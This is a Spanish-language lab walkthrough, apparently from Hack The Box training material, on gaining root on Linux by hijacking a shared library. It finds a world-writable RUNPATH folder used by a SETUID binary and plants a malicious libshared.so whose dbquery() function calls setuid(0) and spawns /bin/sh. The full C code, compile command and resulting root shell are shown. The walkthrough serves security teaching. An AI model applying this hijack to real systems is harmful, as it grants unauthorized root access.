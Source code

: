 Programs and binaries under development usually have custom libraries associated with them. Consider the following `SETUID` binary.

```r
htb-student@NIX02:~$ ls -la payroll

-rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll
```

Podemos usar [ldd](https://manpages.ubuntu.com/manpages/bionic/man1/ldd.1.html) para imprimir el objeto compartido requerido por un binario u objeto compartido. `Ldd` muestra la ubicación del objeto y la dirección hexadecimal donde se carga en la memoria para cada una de las dependencias de un programa.

```r
htb-student@NIX02:~$ ldd payroll

linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /lib/x86_64-linux-gnu/libshared.so (0x00007f7f62e51000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
```

Vemos una biblioteca no estándar llamada `libshared.so` listada como una dependencia para el binario. Como se mencionó anteriormente, es posible cargar bibliotecas compartidas desde ubicaciones personalizadas. Una de estas configuraciones es la configuración `RUNPATH`. Las bibliotecas en esta carpeta tienen preferencia sobre otras carpetas. Esto se puede inspeccionar usando la utilidad [readelf](https://man7.org/linux/man-pages/man1/readelf.1.html).

```r
htb-student@NIX02:~$ readelf -d payroll  | grep PATH

 0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

La configuración permite la carga de bibliotecas desde la carpeta `/development`, que es escribible por todos los usuarios. Esta mala configuración puede ser explotada colocando una biblioteca maliciosa en `/development`, la cual tendrá prioridad sobre otras carpetas porque las entradas en este archivo se verifican primero (antes que otras carpetas presentes en los archivos de configuración).

```r
htb-student@NIX02:~$ ls -la /development/

total 8
drwxrwxrwx  2 root root 4096 Sep  1 22:06 ./
drwxr-xr-x 23 root root 4096 Sep  1 21:26 ../
```

Antes de compilar una biblioteca, necesitamos encontrar el nombre de la función llamada por el binario.

```r
htb-student@NIX02:~$ ldd payroll

linux-vdso.so.1 (0x00007ffd22bbc000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
/lib64/ld-linux-x86-64.so.2 (0x00007f0c1330a000)
```

```r
htb-student@NIX02:~$ cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
```

```r
htb-student@NIX02:~$ ./payroll 

./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
```

Podemos copiar una biblioteca existente a la carpeta `development`. Ejecutar `ldd` contra el binario lista la ruta de la biblioteca como `/development/libshared.so`, lo que significa que es vulnerable. Ejecutar el binario arroja un error que indica que no pudo encontrar la función llamada `dbquery`. Podemos compilar un objeto compartido que incluya esta función.

```r
#include<stdio.h>
#include<stdlib.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 

```

La función `dbquery` establece nuestro user id a 0 (root) y ejecuta `/bin/sh` cuando se llama. Compílala usando [GCC](https://linux.die.net/man/1/gcc).

```r
htb-student@NIX02:~$ gcc src.c -fPIC -shared -o /development/libshared.so
```

Ejecutar el binario nuevamente debería mostrar el banner y abrir una root shell.

```r
htb-student@NIX02:~$ ./payroll 

***************Inlane Freight Employee Database***************

Malicious library loaded
# id
uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)
```